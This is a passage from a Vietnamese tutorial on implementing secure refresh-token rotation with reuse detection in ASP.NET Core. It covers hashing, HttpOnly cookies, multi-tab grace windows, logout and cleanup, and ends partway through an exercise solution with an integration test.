

# 10.3 - Refresh Token

> **Tóm tắt:** Refresh token tồn tại để giải quyết một mâu thuẫn: access token phải **sống ngắn** (vì không thu hồi được) nhưng người dùng không muốn đăng nhập lại mỗi 15 phút. Điều làm nên khác biệt giữa một cài đặt an toàn và một cài đặt hình thức là **rotation kèm phát hiện tái sử dụng**: mỗi lần làm mới sinh token mới và huỷ token cũ; nếu token **đã bị huỷ** được dùng lại, đó là dấu hiệu **token đã bị đánh cắp** và bạn phải huỷ **toàn bộ chuỗi** của người dùng đó. Ba việc bắt buộc còn lại: **hash trước khi lưu** (nó là mật khẩu, không phải id), giới hạn thời gian sống tuyệt đối, và xử lý được **nhiều tab cùng làm mới** — kể cả chuyện ba request song song cùng "thắng" khi code rotation không chống tranh chấp.

## Mục tiêu bài học

Sau bài này bạn có thể:

- Giải thích vì sao cần refresh token và nó bảo vệ điều gì.
- Cài rotation với phát hiện tái sử dụng, an toàn khi nhiều request chạy song song.
- Lưu trữ refresh token an toàn ở cả server và client.
- Xử lý nhiều tab cùng làm mới mà không đăng xuất nhầm người dùng.
- Đăng xuất đúng cách và dọn dẹp token hết hạn.

**Cần biết trước:** [bài 10.2](10.2-jwt-authentication.md) (`TokenService`, `DemoUserStore`, endpoint đăng nhập), EF Core cơ bản với `DbContext` và migration ([bài 8.10](../module-08-aspnet-core-fundamentals/8.10-ef-core-minimal.md)), `BackgroundService` ([bài 9.9](../module-09-web-api-professional/9.9-hosted-service-background-jobs.md)). Database chạy bằng `docker-compose.yml` ở gốc repo.

## Nội dung bài học

### 10.3.1 — Vấn đề nó giải quyết

| | Access token | Refresh token |
|---|---|---|
| Sống | 5–15 phút | 7–30 ngày |
| Gửi kèm | **Mọi** request | Chỉ khi làm mới |
| Lưu ở server | Không | **Có** |
| Thu hồi được | Không | **Có** |
| Bị lộ thì | Rủi ro ≤ 15 phút | Nghiêm trọng |

Ý tưởng: thứ đi qua mạng **liên tục** thì sống ngắn; thứ sống dài thì **hiếm khi** đi qua mạng và **thu hồi được**.

Khác biệt quyết định là dòng "lưu ở server". Refresh token được lưu nên bạn **kiểm tra được** nó còn hiệu lực không — đó là điều access token không làm được ([bài 10.2](10.2-jwt-authentication.md)).

### 10.3.2 — Lược đồ lưu trữ

```csharp
// RefreshToken.cs
public sealed class RefreshToken
{
    public Guid Id { get; set; }
    public required byte[] TokenHash { get; set; }      // SHA-256 của token thô, KHÔNG lưu token thô
    public required string UserId { get; set; }
    public DateTime CreatedAt { get; set; }
    public DateTime ExpiresAt { get; set; }
    public DateTime AbsoluteExpiresAt { get; set; }     // trần tuyệt đối, không gia hạn
    public DateTime? RevokedAt { get; set; }
    public string? RevokedReason { get; set; }          // rotated, logout, reuse-detected...
    public byte[]? ReplacedByHash { get; set; }         // nối chuỗi rotation
    public string? CreatedByIp { get; set; }
    public string? UserAgent { get; set; }
}
```

```csharp
// CrmDbContext.cs
public sealed class CrmDbContext(DbContextOptions<CrmDbContext> options) : DbContext(options)
{
    public DbSet<RefreshToken> RefreshTokens => Set<RefreshToken>();

    protected override void OnModelCreating(ModelBuilder modelBuilder)
    {
        modelBuilder.Entity<RefreshToken>(e =>
        {
            e.HasIndex(t => t.TokenHash).IsUnique();
            e.HasIndex(t => t.UserId);
            e.Property(t => t.UserId).HasMaxLength(450);
            e.Property(t => t.RevokedReason).HasMaxLength(50);
            e.Property(t => t.CreatedByIp).HasMaxLength(45);
            e.Property(t => t.UserAgent).HasMaxLength(512);
        });
    }
}
```

```bash
dotnet add package Npgsql.EntityFrameworkCore.PostgreSQL
dotnet add package Microsoft.EntityFrameworkCore.Design
```

```csharp
// Program.cs
builder.Services.AddDbContext<CrmDbContext>(options =>
    options.UseNpgsql(builder.Configuration.GetConnectionString("Crm")));
```

<details>
<summary>SQL Server</summary>

```bash
dotnet add package Microsoft.EntityFrameworkCore.SqlServer
dotnet add package Microsoft.EntityFrameworkCore.Design
```

```csharp
builder.Services.AddDbContext<CrmDbContext>(options =>
    options.UseSqlServer(builder.Configuration.GetConnectionString("Crm")));
```

</details>

Chuỗi kết nối `Crm` lấy theo `docker-compose.yml` ở gốc repo, đặt bằng user-secrets như khoá JWT. Tạo bảng bằng migration như [bài 8.10](../module-08-aspnet-core-fundamentals/8.10-ef-core-minimal.md):

```bash
dotnet ef migrations add AddRefreshTokens
dotnet ef database update
```

SQL mà EF Core sinh ra trên PostgreSQL 16:

```sql
CREATE TABLE "RefreshTokens" (
    "Id" uuid NOT NULL,
    "TokenHash" bytea NOT NULL,
    "UserId" character varying(450) NOT NULL,
    "CreatedAt" timestamp with time zone NOT NULL,
    "ExpiresAt" timestamp with time zone NOT NULL,
    "AbsoluteExpiresAt" timestamp with time zone NOT NULL,
    "RevokedAt" timestamp with time zone,
    "RevokedReason" character varying(50),
    "ReplacedByHash" bytea,
    "CreatedByIp" character varying(45),
    "UserAgent" character varying(512),
    CONSTRAINT "PK_RefreshTokens" PRIMARY KEY ("Id")
);
CREATE UNIQUE INDEX "IX_RefreshTokens_TokenHash" ON "RefreshTokens" ("TokenHash");
CREATE INDEX "IX_RefreshTokens_UserId" ON "RefreshTokens" ("UserId");
```

<details>
<summary>SQL Server</summary>

```sql
CREATE TABLE [RefreshTokens] (
    [Id] uniqueidentifier NOT NULL,
    [TokenHash] varbinary(900) NOT NULL,
    [UserId] nvarchar(450) NOT NULL,
    [CreatedAt] datetime2 NOT NULL,
    [ExpiresAt] datetime2 NOT NULL,
    [AbsoluteExpiresAt] datetime2 NOT NULL,
    [RevokedAt] datetime2 NULL,
    [RevokedReason] nvarchar(50) NULL,
    [ReplacedByHash] varbinary(max) NULL,
    [CreatedByIp] nvarchar(45) NULL,
    [UserAgent] nvarchar(512) NULL,
    CONSTRAINT [PK_RefreshTokens] PRIMARY KEY ([Id])
);
CREATE UNIQUE INDEX [IX_RefreshTokens_TokenHash] ON [RefreshTokens] ([TokenHash]);
CREATE INDEX [IX_RefreshTokens_UserId] ON [RefreshTokens] ([UserId]);
```

</details>

**Vì sao hash?** Refresh token là **chứng chỉ xác thực**, ngang mật khẩu. Ai đọc được bảng này — qua SQL injection, qua bản backup, qua một lập trình viên có quyền đọc production — đều có thể mạo danh **mọi** người dùng đang đăng nhập.

Hash thì lộ database không còn dùng được gì. SHA-256 là đủ ở đây (khác với mật khẩu cần hàm băm chậm như PBKDF2, bcrypt hay Argon2), vì token đã là 512 bit ngẫu nhiên — không có gì để dò.

`AbsoluteExpiresAt` là trần **không** gia hạn theo rotation: dù người dùng hoạt động liên tục, sau 30 ngày họ vẫn phải đăng nhập lại. Không có nó, một token bị đánh cắp và rotate đều đặn sẽ sống vĩnh viễn.

`CreatedByIp` và `UserAgent` phục vụ điều tra và cho người dùng xem "các phiên đang đăng nhập".

### 10.3.3 — Sinh và lưu

```csharp
// RefreshTokenService.cs (phần 1)
public sealed class RefreshTokenService(
    CrmDbContext db, DemoUserStore users, TokenService tokens,
    TimeProvider clock, ILogger<RefreshTokenService> logger)
{
    private static readonly TimeSpan GracePeriod = TimeSpan.FromSeconds(10);

    private static byte[] Hash(string raw) => SHA256.HashData(Encoding.UTF8.GetBytes(raw));

    // 512 bit ngẫu nhiên từ bộ sinh số ngẫu nhiên an toàn mật mã
    private static string NewRawToken() => Convert.ToBase64String(RandomNumberGenerator.GetBytes(64));

    public async Task<string> IssueAsync(string userId, string? ip, string? userAgent, CancellationToken ct)
    {
        var raw = NewRawToken();
        var now = clock.GetUtcNow().UtcDateTime;

        db.RefreshTokens.Add(new RefreshToken
        {
            TokenHash = Hash(raw),
            UserId = userId,
            CreatedAt = now,
            ExpiresAt = now.AddDays(7),
            AbsoluteExpiresAt = now.AddDays(30),
            CreatedByIp = ip,
            UserAgent = userAgent,
        });
        await db.SaveChangesAsync(ct);

        return raw;               // trả về bản THÔ, chỉ một lần duy nhất
    }
```

`RandomNumberGenerator` là CSPRNG (bộ sinh số ngẫu nhiên đủ an toàn cho mật mã). **Không bao giờ** dùng `Random` hay `Guid.NewGuid()` cho token bảo mật — `Random` đoán được, còn `Guid` chỉ có 122 bit ngẫu nhiên và không được thiết kế để làm bí mật.

### 10.3.4 — Rotation và phát hiện tái sử dụng

Đây là phần quan trọng nhất của cả bài. Đọc theo thứ tự: tìm token theo hash, xử lý token đã bị huỷ, kiểm tra hạn, rồi mới rotate. Kết quả trả về là một cặp token, khai báo trước:

```csharp
// TokenPair.cs
// RefreshToken = null nghĩa là client giữ nguyên refresh token đang có (xem mục 10.3.6)
public sealed record TokenPair(string AccessToken, string? RefreshToken);
```

```csharp
// RefreshTokenService.cs (phần 2)
    public async Task<TokenPair?> RefreshAsync(string rawToken, string? ip, CancellationToken ct)
    {
        var hash = Hash(rawToken);
        var stored = await db.RefreshTokens.AsNoTracking()
            .FirstOrDefaultAsync(t => t.TokenHash == hash, ct);
        if (stored is null) return null;

        var now = clock.GetUtcNow().UtcDateTime;

        if (stored.RevokedAt is not null)
            return await HandleRevokedAsync(stored, ip, now, ct);     // mục 10.3.6

        if (stored.ExpiresAt < now || stored.AbsoluteExpiresAt < now)
            return null;

        var user = users.FindById(stored.UserId);
        if (user is null) return null;

        var newRaw = NewRawToken();
        var newHash = Hash(newRaw);

        await using var tx = await db.Database.BeginTransactionAsync(ct);

        // Chỉ MỘT request được huỷ token này: điều kiện RevokedAt == null nằm ngay trong câu UPDATE
        var updated = await db.RefreshTokens
            .Where(t => t.Id == stored.Id && t.RevokedAt == null)
            .ExecuteUpdateAsync(s => s
                .SetProperty(t => t.RevokedAt, now)
                .SetProperty(t => t.RevokedReason, "rotated")
                .SetProperty(t => t.ReplacedByHash, newHash), ct);

        if (updated == 0)
        {
            // Một request khác vừa rotate token này trước mình
            await tx.RollbackAsync(ct);
            var current = await db.RefreshTokens.AsNoTracking().FirstAsync(t => t.Id == stored.Id, ct);
            return await HandleRevokedAsync(current, ip, now, ct);
        }

        db.RefreshTokens.Add(new RefreshToken
        {
            TokenHash = newHash,
            UserId = stored.UserId,
            CreatedAt = now,
            ExpiresAt = now.AddDays(7),
            AbsoluteExpiresAt = stored.AbsoluteExpiresAt,   // KHÔNG gia hạn trần tuyệt đối
            CreatedByIp = ip,
        });
        await db.SaveChangesAsync(ct);
        await tx.CommitAsync(ct);

        return new TokenPair(tokens.CreateAccessToken(user.Id, user.Email, user.Roles), newRaw);
    }

    public Task<int> RevokeAllForUserAsync(string userId, string reason, CancellationToken ct)
    {
        var now = clock.GetUtcNow().UtcDateTime;
        return db.RefreshTokens
            .Where(t => t.UserId == userId && t.RevokedAt == null)
            .ExecuteUpdateAsync(s => s
                .SetProperty(t => t.RevokedAt, now)
                .SetProperty(t => t.RevokedReason, reason), ct);
    }
```

**Vì sao không viết kiểu "đọc, sửa thuộc tính, `SaveChangesAsync`"?** Vì ba request mang cùng token tới gần như cùng lúc sẽ cùng đọc thấy `RevokedAt == null`, cùng sửa và cùng lưu: cả ba đều rotate thành công và bạn có **ba chuỗi token song song** cho cùng một phiên. Bài tập 2 đo được đúng chuyện này. `ExecuteUpdateAsync` (có từ EF Core 7) gửi thẳng một câu `UPDATE ... WHERE "Id" = @id AND "RevokedAt" IS NULL` xuống database. Database khoá dòng đó khi cập nhật, nên chỉ request đầu tiên nhận `updated == 1`; các request sau thấy điều kiện không còn đúng và nhận `0`.

**Vì sao phát hiện tái sử dụng lại hiệu quả:**

```text
Kẻ tấn công đánh cắp refresh token R1.

Trường hợp A — kẻ tấn công dùng trước:
  R1 -> R2 (kẻ tấn công giữ R2)
  Người dùng thật dùng R1 -> ĐÃ BỊ HUỶ -> phát hiện!

Trường hợp B — người dùng dùng trước:
  R1 -> R2 (người dùng giữ R2)
  Kẻ tấn công dùng R1 -> ĐÃ BỊ HUỶ -> phát hiện!
```

Dù ai dùng trước, việc tái sử dụng **luôn** xảy ra và bạn luôn phát hiện. Đó là điều rotation **không kèm** phát hiện tái sử dụng không làm được — khi đó kẻ tấn công cứ lặng lẽ rotate mãi.

Khi phát hiện, phải huỷ **toàn bộ** chuỗi của người dùng, không chỉ token đó. Bạn không biết bên nào là kẻ tấn công, nên buộc cả hai đăng nhập lại là phản ứng đúng.

Toàn bộ `RefreshAsync` gói lại trong một sơ đồ:



### 10.3.5 — Client lưu token ở đâu

Đây là quyết định bảo mật quan trọng nhất về phía client:

| Nơi lưu | XSS đọc được | CSRF | Ghi chú |
|---|---|---|---|
| `localStorage` | **Có** | Không | Phổ biến nhất, kém an toàn nhất |
| `sessionStorage` | **Có** | Không | Như trên, mất khi đóng tab |
| Biến JavaScript | Có (cùng ngữ cảnh) | Không | Mất khi tải lại trang |
| **Cookie `HttpOnly` + `Secure` + `SameSite`** | **Không** | Cần chống | **Tốt nhất** |

XSS (cross-site scripting) là khi kẻ tấn công chạy được JavaScript của hắn trên trang của bạn. Mọi bài viết khuyên lưu token trong `localStorage` đều bỏ qua một điều: **một lỗ hổng XSS ở bất kỳ đâu trên tên miền** — kể cả trong một thư viện npm bị chèn mã — đều đọc được `localStorage` và gửi token đi.

**Quy ước của module:** trình duyệt (SPA) nhận refresh token qua cookie `HttpOnly`, không bao giờ qua JSON. Ứng dụng di động không có cookie của trình duyệt thì nhận refresh token trong body và cất vào kho bảo mật của hệ điều hành (Keychain, Keystore) — trường hợp đó cần một endpoint riêng, bài này không làm.

```csharp
// RefreshCookie.cs
public static class RefreshCookie
{
    public const string Name = "refresh_token";

    public static CookieOptions Options(DateTimeOffset? expires = null) => new()
    {
        HttpOnly = true,                    // JavaScript không đọc được
        Secure = true,                      // chỉ gửi qua HTTPS
        SameSite = SameSiteMode.Strict,     // không gửi kèm request khởi phát từ site khác
        Path = "/api/auth",                 // chỉ gửi tới endpoint auth
        Expires = expires,
    };
}
```

Endpoint đăng nhập của [bài 10.2](10.2-jwt-authentication.md) giờ phát thêm refresh token vào cookie, và có thêm endpoint làm mới:

```csharp
// AuthController.cs — thêm RefreshTokenService vào constructor
[HttpPost("login")]
[AllowAnonymous]
[EnableRateLimiting("login")]
public async Task<ActionResult<TokenResponse>> Login(LoginRequest request, CancellationToken ct)
{
    var user = users.FindByEmail(request.Email);
    if (user is null || !users.CheckPassword(user, request.Password))
        return Unauthorized(new ProblemDetails { Title = "Đăng nhập thất bại" });

    var refresh = await refreshTokens.IssueAsync(user.Id,
        HttpContext.Connection.RemoteIpAddress?.ToString(), Request.Headers.UserAgent.ToString(), ct);
    Response.Cookies.Append(RefreshCookie.Name, refresh,
        RefreshCookie.Options(DateTimeOffset.UtcNow.AddDays(7)));

    return Ok(new TokenResponse(tokens.CreateAccessToken(user.Id, user.Email, user.Roles),
        jwt.Value.AccessTokenMinutes * 60));
}

[HttpPost("refresh")]
[AllowAnonymous]
public async Task<ActionResult<TokenResponse>> Refresh(CancellationToken ct)
{
    var raw = Request.Cookies[RefreshCookie.Name];
    if (raw is null) return Unauthorized();

    var pair = await refreshTokens.RefreshAsync(raw, HttpContext.Connection.RemoteIpAddress?.ToString(), ct);
    if (pair is null) return Unauthorized();

    if (pair.RefreshToken is not null)
        Response.Cookies.Append(RefreshCookie.Name, pair.RefreshToken,
            RefreshCookie.Options(DateTimeOffset.UtcNow.AddDays(7)));

    return Ok(new TokenResponse(pair.AccessToken, jwt.Value.AccessTokenMinutes * 60));
}
```

```csharp
// Program.cs
builder.Services.AddScoped<RefreshTokenService>();
```

Header mà đăng nhập trả về (chạy thật):

```http
Set-Cookie: refresh_token=<R1>; expires=Sun, 25 Oct 2026 02:46:18 GMT; path=/api/auth; secure; samesite=strict; httponly
```

`Path = "/api/auth"` là chi tiết đáng giá: cookie **không** được gửi kèm những request khác, nên bề mặt tấn công nhỏ hơn nhiều.

Mẫu thực dụng: **access token trong bộ nhớ JavaScript** (mất khi tải lại trang, và lấy lại bằng một lần gọi `/refresh`), **refresh token trong cookie `HttpOnly`**. XSS không đọc được refresh token, còn access token chỉ sống 15 phút.

Dùng cookie thì phải chống CSRF (cross-site request forgery: trang khác lừa trình duyệt gửi request kèm cookie của bạn). `SameSite=Strict` xử lý phần lớn; frontend nằm khác site với API thì cần thêm biện pháp ở [bài 10.10](10.10-security-best-practices.md).

### 10.3.6 — Nhiều tab cùng làm mới

Người dùng mở 3 tab. Access token hết hạn. Cả 3 tab cùng gọi `/refresh` với **cùng** một refresh token R1:

```text
Tab 1: R1 -> R2  (thành công)
Tab 2: R1 -> ĐÃ BỊ HUỶ -> phát hiện tái sử dụng -> HUỶ TẤT CẢ
Tab 3: R1 -> thất bại
=> Người dùng bị đăng xuất dù không có tấn công nào
```

Đây là vấn đề **thật** và hay bị bỏ qua cho tới khi người dùng phàn nàn "cứ bị đăng xuất".

Ba cách xử lý:

**1. Cửa sổ ân hạn.** Nếu token bị huỷ **do rotate** và mới huỷ chưa tới 10 giây, coi đó là tab khác của chính người dùng: cấp một **access token mới**, nhưng **không** cấp refresh token nào.

```csharp
// RefreshTokenService.cs (phần 3)
    private async Task<TokenPair?> HandleRevokedAsync(
        RefreshToken stored, string? ip, DateTime now, CancellationToken ct)
    {
        if (stored.RevokedReason == "rotated" && now - stored.RevokedAt!.Value < GracePeriod)
        {
            var user = users.FindById(stored.UserId);
            return user is null
                ? null
                : new TokenPair(tokens.CreateAccessToken(user.Id, user.Email, user.Roles), RefreshToken: null);
        }

        var revoked = await RevokeAllForUserAsync(stored.UserId, "reuse-detected", ct);
        logger.LogCritical(
            "Refresh token đã bị huỷ được dùng lại. User {UserId}, IP {Ip}. Đã huỷ {Count} token còn sống.",
            stored.UserId, ip, revoked);
        return null;
    }
```

Vì sao không cấp refresh token? Vì server chỉ lưu **hash** của R2, không lưu R2, nên nó không thể "trả lại R2" cho tab thứ hai. Và cũng không cần: các tab cùng một trình duyệt dùng chung kho cookie, nên khi tab 1 nhận `Set-Cookie: refresh_token=R2`, tab 2 và tab 3 tự động dùng R2 ở lần làm mới sau. Chúng chỉ thiếu một access token cho lần này. Cấp refresh token mới cho tab 2 thì sai: đó là tạo một chuỗi thứ hai song song.

**2. Client tự đồng bộ.** Dùng `BroadcastChannel` hoặc một khoá trong `localStorage` để chỉ một tab làm mới, các tab khác chờ kết quả. Sạch nhất nhưng cần client hợp tác.

**3. Khoá ở server** theo `userId` trong thời gian làm mới. Đơn giản nhưng thêm một điểm tranh chấp, và khó làm đúng khi có nhiều instance.

Cách 1 là cân bằng tốt nhất phía server, và nên làm kèm cách 2 nếu bạn kiểm soát được client.

### 10.3.7 — Đăng xuất và dọn dẹp

```csharp
// RefreshTokenService.cs (phần 4, cuối lớp)
    public Task<int> RevokeAsync(string rawToken, string reason, CancellationToken ct)
    {
        var hash = Hash(rawToken);
        var now = clock.GetUtcNow().UtcDateTime;
        return db.RefreshTokens
            .Where(t => t.TokenHash == hash && t.RevokedAt == null)
            .ExecuteUpdateAsync(s => s
                .SetProperty(t => t.RevokedAt, now)
                .SetProperty(t => t.RevokedReason, reason), ct);
    }
}
```

```csharp
// AuthController.cs
[HttpPost("logout")]
[Authorize]
public async Task<IActionResult> Logout(CancellationToken ct)
{
    var raw = Request.Cookies[RefreshCookie.Name];
    if (raw is not null)
        await refreshTokens.RevokeAsync(raw, "logout", ct);

    // Xoá cookie phải dùng ĐÚNG Path lúc tạo
    Response.Cookies.Delete(RefreshCookie.Name, RefreshCookie.Options());
    return NoContent();
}

[HttpPost("logout-all")]
[Authorize]
public async Task<IActionResult> LogoutAll(CancellationToken ct)
{
    await refreshTokens.RevokeAllForUserAsync(currentUser.Id, "logout-all", ct);
    Response.Cookies.Delete(RefreshCookie.Name, RefreshCookie.Options());
    return NoContent();
}
```

`currentUser` là `ICurrentUser` của [bài 10.1](10.1-authentication-vs-authorization.md), tiêm qua constructor.

**Cái bẫy của `Cookies.Delete`.** Trình duyệt chỉ xoá cookie khi tên **và** `Path` khớp. Gọi `Response.Cookies.Delete("refresh_token")` trần sẽ gửi lệnh xoá cho `path=/`, còn cookie thật nằm ở `path=/api/auth`, nên nó **vẫn còn** sau khi đăng xuất. So sánh hai header thật:

```http
# Delete("refresh_token") — SAI, path=/ không khớp cookie đang có
Set-Cookie: refresh_token=; expires=Thu, 01 Jan 1970 00:00:00 GMT; path=/

# Delete("refresh_token", RefreshCookie.Options()) — ĐÚNG
Set-Cookie: refresh_token=; expires=Thu, 01 Jan 1970 00:00:00 GMT; path=/api/auth; secure; samesite=strict; httponly
```

`logout-all` là tính năng người dùng thật sự cần khi nghi ngờ tài khoản bị xâm nhập. Nó cũng nên được gọi **tự động** khi đổi mật khẩu.

Lưu ý: đăng xuất huỷ refresh token nhưng **access token vẫn hợp lệ** tới khi hết hạn. Đó là giới hạn đã nói ở [bài 10.2](10.2-jwt-authentication.md), và là lý do TTL phải ngắn.

Bảng `RefreshTokens` sẽ phình lên, nên cần dọn định kỳ:

```csharp
// RefreshTokenCleanupWorker.cs
public sealed class RefreshTokenCleanupWorker(
    IServiceScopeFactory scopeFactory, TimeProvider clock,
    ILogger<RefreshTokenCleanupWorker> logger) : BackgroundService
{
    protected override async Task ExecuteAsync(CancellationToken ct)
    {
        using var timer = new PeriodicTimer(TimeSpan.FromHours(24));

        while (await timer.WaitForNextTickAsync(ct))
        {
            try
            {
                await using var scope = scopeFactory.CreateAsyncScope();
                var db = scope.ServiceProvider.GetRequiredService<CrmDbContext>();

                // Giữ thêm 30 ngày để còn dấu vết điều tra
                var cutoff = clock.GetUtcNow().UtcDateTime.AddDays(-30);
                var removed = await db.RefreshTokens
                    .Where(t => t.AbsoluteExpiresAt < cutoff)
                    .ExecuteDeleteAsync(ct);

                logger.LogInformation("Đã xoá {Count} refresh token hết hạn", removed);
            }
            catch (Exception ex) when (ex is not OperationCanceledException)
            {
                logger.LogError(ex, "Dọn dẹp refresh token thất bại");
            }
        }
    }
}
```

Mẫu `BackgroundService` này theo đúng [bài 9.9](../module-09-web-api-professional/9.9-hosted-service-background-jobs.md) — nhớ khoá phân tán nếu chạy nhiều instance.

### 10.3.8 — Lỗi thường gặp

**Danh sách rà soát refresh token**

- [ ] Refresh token được hash trước khi lưu, không lưu dạng thô.
- [ ] Token sinh bằng RandomNumberGenerator, không phải Random hay Guid.
- [ ] Mỗi lần làm mới đều rotate: huỷ token cũ, phát token mới.
- [ ] Lệnh huỷ token cũ có điều kiện RevokedAt IS NULL trong câu UPDATE, không đọc-sửa-lưu.
- [ ] Tái sử dụng token đã huỷ bị phát hiện và huỷ toàn bộ chuỗi của người dùng.
- [ ] Sự kiện phát hiện tái sử dụng được log ở mức Critical và có cảnh báo.
- [ ] Có trần thời gian tuyệt đối không gia hạn theo rotation.
- [ ] Refresh token nằm trong cookie HttpOnly, Secure, SameSite, giới hạn Path.
- [ ] Cửa sổ ân hạn chỉ cấp access token, không bao giờ cấp refresh token thứ hai.
- [ ] Xoá cookie bằng đúng Path đã dùng khi tạo.
- [ ] Có endpoint logout-all, và nó được gọi tự động khi đổi mật khẩu.
- [ ] Có job dọn dẹp token hết hạn.

## Bài tập áp dụng

#### Bài 1 — Phát hiện tái sử dụng refresh token

Viết integration test: đăng nhập lấy R1, rotate hai lần (R1 → R2 → R3), rồi dùng lại R1. Xác nhận toàn bộ chuỗi bị huỷ, kể cả R3, và log `Critical` xuất hiện.

**Tiêu chí hoàn thành:** test chạy xanh trên PostgreSQL, và bạn giải thích được vì sao việc **huỷ cả chuỗi** là phản ứng đúng, chứ không phải chỉ từ chối riêng token đó.

<details>
<summary><strong>Gợi ý và lời giải — Bài 1</strong></summary>

**Gợi ý.** Ba bước rotate liên tiếp trong test diễn ra trong vài mili-giây, tức là **nằm trong cửa sổ ân hạn 10 giây**. Bạn cần điều khiển đồng hồ: gói `Microsoft.Extensions.TimeProvider.Testing` có `FakeTimeProvider` để tua thời gian.

**Lời giải — test:**

```csharp
// RefreshTokenTests.cs
public class RefreshTokenTests
{
    private readonly FakeTimeProvider _clock = new(DateTimeOffset.UtcNow);
    private readonly WebApplicationFactory<Program> _factory;
    private readonly HttpClient _client;

    public RefreshTokenTests()
    {
        _factory = new WebApplicationFactory<Program>().WithWebHostBuilder(b =>
        {
            b.UseSetting("Jwt:SecretKey", "khoa-bi-mat-cho-test-du-dai-32-byte-tro-len!!");
            b.ConfigureServices(s => s.AddSingleton<TimeProvider>(_clock));
        });

        using var scope = _factory.Services.CreateScope();
        var db = scope.ServiceProvider.GetRequiredService<CrmDbContext>();
        db.Database.EnsureDeleted();
        db.Database.EnsureCreated();

        // Cookie có Secure nên phải gọi qua https; tự gửi cookie bằng tay để mô phỏng kẻ tấn công
        _client = _factory.CreateClient(new WebApplicationFactoryClientOptions
        {
            HandleCookies = false,
            BaseAddress = new Uri("https://localhost"),
        });
    }

    private static string? RefreshCookieFrom(HttpResponseMessage res) =>
        res.Headers.TryGetValues("Set-Cookie", out var values)
            ? values.Select(c => c.Split(';')[0])
                    .FirstOrDefault(c => c.StartsWith("refresh_token="))?["refresh_token=".Length..]
            : null;

    private Task<HttpResponseMessage> RefreshAsync(string token)
    {
        var req = new HttpRequestMessage(HttpMethod.Post, "/api/auth/refresh");
        req.Headers.Add("Cookie", $"refresh_token={token}");
        return _client.SendAsync(req);
    }

    [Fact]
    public async Task ReusingRotatedToken_RevokesWholeChain()
    {
        var login = await _client.PostAsJsonAsync("/api/auth/login",
            new { email = "an@crm.local", password = "Mat-khau-cua-An-2026" });
        var r1 = RefreshCookieFrom(login)!;

        _clock.Advance(TimeSpan.FromMinutes(15));
        var r2 = RefreshCookieFrom(await RefreshAsync(r1))!;      // R1 -> R2
        _clock.Advance(TimeSpan.FromMinutes(15));
        var r3 = RefreshCookieFrom(await RefreshAsync(r2))!;      // R2 -> R3
        _clock.Advance(TimeSpan.FromMinutes(1));                  // ra khỏi cửa sổ ân hạn

        var attack = await RefreshAsync(r1);                       // kẻ tấn công dùng lại R1
        Assert.Equal(HttpStatusCode.Unauthorized, attack.StatusCode);

        var victim = await RefreshAsync(r3);                       // R3 của người dùng thật CŨNG bị huỷ
        Assert.Equal(HttpStatusCode.Unauthorized, victim.StatusCode);
    }
}
```

Database trong test là PostgreSQL thật (chuỗi kết nối `Crm` trỏ tới một database riêng cho test), không dùng `UseInMemoryDatabase` vì `ExecuteUpdateAsync` và transaction cần database quan hệ thật ([bài 9.8](../module-09-web-api-professional/9.8-api-testing.md)).

**Kết quả chạy thật:**

```text
login 200, R1 -> R2: 200, R2 -> R3: 200, dùng lại R1: 401, R3 sau đó: 401
Bảng RefreshTokens: 3 dòng, 0 còn sống, lý do huỷ: rotated, rotated, reuse-detected
```

```text
crit: JwtLab.RefreshTokenService[0]
      Refresh token đã bị huỷ được dùng lại. User 1, IP (null). Đã huỷ 1 token còn sống.
```

(`JwtLab` là tên project thử nghiệm.) "Đã huỷ 1 token còn sống" chính là R3 — token duy nhất còn hiệu lực trong chuỗi lúc đó. IP là `(null)` vì `WebApplicationFactory` không đi qua mạng thật.

**Vì sao phải huỷ cả chuỗi.** Khi R1 xuất hiện lần thứ hai, bạn biết chắc một điều và **không** biết một điều:

| Biết chắc | Không biết |
|---|---|
| Có hai bên cùng giữ token trong chuỗi này | Bên nào là người dùng thật |

R1 đã bị đánh cắp — nhưng bạn không biết kẻ trộm đã kịp rotate chưa. Có hai kịch bản, và chúng đối xứng:

```text
Kịch bản A — kẻ tấn công dùng trước:
  Kẻ tấn công: R1 -> R2 (giờ HẮN giữ chuỗi sống)
  Người dùng thật: R1 -> đã huỷ -> phát hiện

Kịch bản B — người dùng dùng trước:
  Người dùng thật: R1 -> R2
  Kẻ tấn công: R1 -> đã huỷ -> phát hiện
```

Ở kịch bản A, chuỗi đang sống thuộc về **kẻ tấn công**. Chỉ từ chối riêng R1 nghĩa là để hắn tiếp tục truy cập vô thời hạn, còn người dùng thật thì đăng nhập lại và... không thay đổi gì cả.

Huỷ cả chuỗi xử lý được **cả hai** kịch bản: ai cũng phải đăng nhập lại, và kẻ tấn công không có mật khẩu nên mất quyền truy cập. Cái giá là người dùng thật bị phiền một lần — rẻ hơn nhiều so với việc để tài khoản bị chiếm.

**Ba điều cần có kèm theo:**

1. **Log ở mức `Critical`, không phải `Warning`.** Đây là dấu hiệu token bị đánh cắp, cần có người xem.
